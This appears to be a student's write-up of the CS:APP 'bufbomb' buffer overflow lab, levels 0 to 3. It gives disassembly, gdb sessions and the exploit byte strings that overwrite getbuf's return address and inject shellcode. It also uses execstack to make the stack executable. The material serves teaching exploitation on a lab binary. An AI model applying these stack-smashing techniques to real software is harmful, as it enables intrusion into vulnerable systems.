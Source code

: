 #buffer lab
##Level 0, Candle
First make my cookie.  
```
joanna@JC:~/Downloads/lab3/bufbomb$ ./makecookie SA16225099
0x79fc9ee5
```
```
08048fe0 <getbuf>:
 8048fe0:	55                   	push   %ebp
 8048fe1:	89 e5                	mov    %esp,%ebp
 8048fe3:	83 ec 18             	sub    $0x18,%esp
 8048fe6:	8d 45 f4             	lea    -0xc(%ebp),%eax
 8048fe9:	89 04 24             	mov    %eax,(%esp)
 8048fec:	e8 6f fe ff ff       	call   8048e60 <Gets>
 8048ff1:	b8 01 00 00 00       	mov    $0x1,%eax
 8048ff6:	c9                   	leave  
 8048ff7:	c3                   	ret    
 8048ff8:	90                   	nop
 8048ff9:	8d b4 26 00 00 00 00 	lea    0x0(%esi,%eiz,1),%esi
```
Function `smoke` is at `0x08048e20`. Function `getbuf` uses address `ebp-0xc` as argument to call function `Gets`. And `Gets` puts String inputed by me at arg1, which is `ebp-0xc` in `getbuf`. In order to override return address in `getbuf`, I need to 12 bytes to fill ebp-0xc, ebp-0x8, ebp-0x4, 4 bytes to override saved ebp and 4 bytes to override return address. So sixteen `31` and `20 8e 04 08` is used as the exploit code. Note that little endian is used in intel.  
<strong>exploit0.txt</strong>
```
31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 20 8e 04 08
```
```
joanna@JC:~/Downloads/lab3/bufbomb$ cat exploit0.txt | ./sendstring | ./bufbomb -t SA16225099
Team: SA16225099
Cookie: 0x79fc9ee5
Type string:Smoke!: You called smoke()
NICE JOB!
Sent validation information to grading server
```
##Level 1, Sparkler
Function `fizz` is at `0x08048dc0`, which is used to override the return address. Use gdb and find `ebp+0x8` in `fizz` is at `0xffffbfa4`, while `ebp+0xc` in `getbuf` is at the same address. So write my cookie(`0x79fc9ee5`) to `ebp+0xc` will set cookie as arg1 for `fizz`. Therefore, after overriding return address, use 4 bytes to fill `ebp+8` and write `e5 9e fc 79` to `ebp+0xc`.  
<strong>exploit1.txt</strong>
```
31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 31 c0 8d 04 08 31 31 31 31 e5 9e fc 79
```
```
joanna@JC:~/Downloads/lab3/bufbomb$cat exploit1.txt | ./sendstring | ./bufbomb -t SA16225099
Team: SA16225099
Cookie: 0x79fc9ee5
Type string:Fizz!: You called fizz(0x79fc9ee5)
NICE JOB!
Sent validation information to grading server
```
##Level 2, Firecracker
C code for bang:
```
int global_value = 0;
void bang(int val)
{
entry_check(2); /* Make sure entered this function properly */
if (global_value == cookie) {
printf("Bang!: You set global_value to 0x%x\n", global_value);
validate(2);
} else
printf("Misfire: global_value = 0x%x\n", global_value);
exit(0);
}
```
Assembly code for bang:
```
08048d60 <bang>:
 8048d60:	55                   	push   %ebp
 8048d61:	89 e5                	mov    %esp,%ebp
 8048d63:	83 ec 08             	sub    $0x8,%esp
 8048d66:	c7 04 24 02 00 00 00 	movl   $0x2,(%esp)
 8048d6d:	e8 2e fc ff ff       	call   80489a0 <entry_check>
 8048d72:	a1 dc a1 04 08       	mov    0x804a1dc,%eax
 8048d77:	3b 05 cc a1 04 08    	cmp    0x804a1cc,%eax
 8048d7d:	74 21                	je     8048da0 <bang+0x40>
 8048d7f:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048d83:	c7 04 24 0b 9a 04 08 	movl   $0x8049a0b,(%esp)
 8048d8a:	e8 d5 f9 ff ff       	call   8048764 <printf@plt>
 8048d8f:	c7 04 24 00 00 00 00 	movl   $0x0,(%esp)
 8048d96:	e8 09 fa ff ff       	call   80487a4 <exit@plt>
 8048d9b:	90                   	nop
 8048d9c:	8d 74 26 00          	lea    0x0(%esi,%eiz,1),%esi
 8048da0:	89 44 24 04          	mov    %eax,0x4(%esp)
 8048da4:	c7 04 24 70 98 04 08 	movl   $0x8049870,(%esp)
 8048dab:	e8 b4 f9 ff ff       	call   8048764 <printf@plt>
 8048db0:	c7 04 24 02 00 00 00 	movl   $0x2,(%esp)
 8048db7:	e8 24 fd ff ff       	call   8048ae0 <validate>
 8048dbc:	eb d1                	jmp    8048d8f <bang+0x2f>
 8048dbe:	89 f6                	mov    %esi,%esi
```
Function `bang` compares cookies with global_value, which corresponds to code at `8048d77`, and `0x804a1dc`, `0x804a1cc` are either cookie or global_value.
```
(gdb) x/wx 0x804a1cc
0x804a1cc <cookie>:	0x79fc9ee5
(gdb) x/d 0x804a1dc
0x804a1dc <global_value>:	0
```
So `global_value` is at `0x804a1dc`, write exploit code first.

1. Set global value
2. Push address of bang as return address
3. ret
```
;Move cookie(0x79fc9ee5) to *(0x804a1dc). 
;Note that $ means immediate value, while without $ means value at address `0x804a1dc`.
movl $0x79fc9ee5,%eax                                                       
movl %eax,0x804a1dc
;Push address of bang
push $0x8048d60
ret
```
>-m32 means gcc generates 32-bit machine code.
```
joanna@JC:~/Downloads/lab3/bufbomb$ gcc -m32 -c exploit2.s
joanna@JC:~/Downloads/lab3/bufbomb$ objdump -d exploit2.o

exploit2.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	b8 e5 9e fc 79       	mov    $0x79fc9ee5,%eax
   5:	a3 dc a1 04 08       	mov    %eax,0x804a1dc
   a:	68 60 8d 04 08       	push   $0x8048d60
   f:	c3                   	ret    
```
Add address of the beginning of this exploit to the end, which is `ebp-0xc`: `0xffffbf98-0xc=0xffffbf8c`, making a 20 bytes machine code.  
<strong>exploit2.txt</strong>
```
b8 e5 9e fc 79 a3 dc a1 04 08 68 60 8d 04 08 c3 8c bf ff ff
```
Make the bufbomb's stack executable:
```
sudo apt install execstack
execstack -s bufbomb 
```
And then using gdb to run bufbomb will be ok!
```
joanna@JC:~/Downloads/lab3/bufbomb$ ./sendstring < exploit2.txt > exploit-raw.txt 
joanna@JC:~/Downloads/lab3/bufbomb$ gdb ./bufbomb 
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.04) 7.11.1
(gdb) r -t SA16225099 < exploit-raw.txt 
Starting program:/home/joanna/Downloads/lab3/bufbomb/bufbomb -t SA16225099 < exploit-raw.txt
Team: SA16225099
Cookie: 0x79fc9ee5
Type string:Bang!: You set global_value to 0x79fc9ee5
NICE JOB!
Sent validation information to grading server
```
##Level 3, Dynamite
Procedure:
`getbuf->Gets->back to getbuf->mov $1,%eax->return to exploit code->run exploit code->return to next line of where test call getbuf`
Exploit assembly:

1. return cookie instead of 1, which uses `mov $0x79fc9ee5,%eax`
2. push address which is the next line `getbuf` is called in function `test`, which is 0x804901e
3. ret  

exploit3.s:
```
mov $0x79fc9ee5,%eax
push $0x804901e
ret
```
```
joanna@JC:~/Downloads/lab3/bufbomb$ gcc -m32 -c exploit3.s 
joanna@JC:~/Downloads/lab3/bufbomb$ objdump -d exploit3.o

exploit3.o:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	b8 e5 9e fc 79       	mov    $0x79fc9ee5,%eax
   5:	68 1e 90 04 08       	push   $0x804901e
   a:	c3                   	ret    
```
Break at `getbuf` and check the saved ebp for `getbuf` 
```
(gdb) x/x $ebp
0xffffbf98:	0xffffbfb8
```
Saves ebp is 0xffffbfb8.  
The final machine code consists of 11 bytes exploit code, 1 byte padding(`31` is used here), 4 bytes saved ebp of getbuf, and 4 bytes return address which returns to exploit code. The beginning of exploit code lies in where the inputed string is stored, which is `ebp-0xc` in `getbuf`.  
```
joanna@JC:~/Downloads/lab3/bufbomb$ cat exploit3.txt
b8 e5 9e fc 79 68 1e 90 04 08 c3 31 b8 bf ff ff 8c bf ff ff
```
I have already made bufbomb's stack excutable, so run it with gdb directly.
```
joanna@JC:~/Downloads/lab3/bufbomb$ ./sendstring < exploit3.txt > exploit-raw.txt 
joanna@JC:~/Downloads/lab3/bufbomb$ gdb ./bufbomb
Starting program:/home/joanna/Downloads/lab3/bufbomb/bufbomb -t SA16225099 < exploit-raw.txt
Team: SA16225099
Cookie: 0x79fc9ee5
Type string:Boom!: getbuf returned 0x79fc9ee5
NICE JOB!
Sent validation information to grading server
```
